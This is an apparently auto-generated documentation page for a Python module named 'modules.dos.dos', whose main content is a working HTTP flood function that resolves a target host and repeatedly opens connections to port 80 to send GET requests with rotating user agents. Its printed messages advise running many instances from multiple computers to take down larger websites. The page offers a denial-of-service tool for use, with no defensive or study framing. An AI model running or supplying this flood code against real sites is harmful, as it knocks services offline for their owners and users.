 # Modules Dos

[_Documentation generated by Documatic_](https://www.documatic.com)

<!---Documatic-section-Codebase Structure-start--->
## Codebase Structure

<!---Documatic-block-system_architecture-start--->
```mermaid
None
```
<!---Documatic-block-system_architecture-end--->

# #
<!---Documatic-section-Codebase Structure-end--->

<!---Documatic-section-modules.dos.dos-start--->
## [modules.dos.dos](4-modules_dos.md#modules.dos.dos)

<!---Documatic-section-dos-start--->
<!---Documatic-block-modules.dos.dos-start--->
<details>
	<summary><code>modules.dos.dos</code> code snippet</summary>

```python
def dos(host):
    clear_scr()
    print('[*]This program will use HTTP FLOOD to dos the host.\n[*]It would work only on small websites if done only for one computer.\n[*]To take down larger websites run the attack from multiple computers.\n[*] For better performance open multiple instances of this software and attack at the same time.\n')
    print('[*]Host to attack: ' + host)
    ip = socket.gethostbyname(host)
    print('[*]IP of the host: ' + ip + '\n\n')
    conn = input('Enter the number of packets to be sent(depends on the site but should be more than 2000 or 3000 for average sites): ')
    conn = int(conn)
    for i in range(conn):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        except:
            print('Unable to create Socket. Retrying.')
            continue
        try:
            s.connect((ip, 80))
        except:
            print('Unable To Connect. Retrying.')
            continue
        print('[*]FLOODING!')
        s.send('GET / HTTP/1.1\r\n'.encode())
        s.send('Host: '.encode() + host.encode() + '\r\n'.encode())
        s.send('User-Agent: '.encode() + choice(user_agents).encode() + '\r\n\r\n'.encode())
        s.close()
```
</details>
<!---Documatic-block-modules.dos.dos-end--->
<!---Documatic-section-dos-end--->

# #
<!---Documatic-section-modules.dos.dos-end--->

[_Documentation generated by Documatic_](https://www.documatic.com)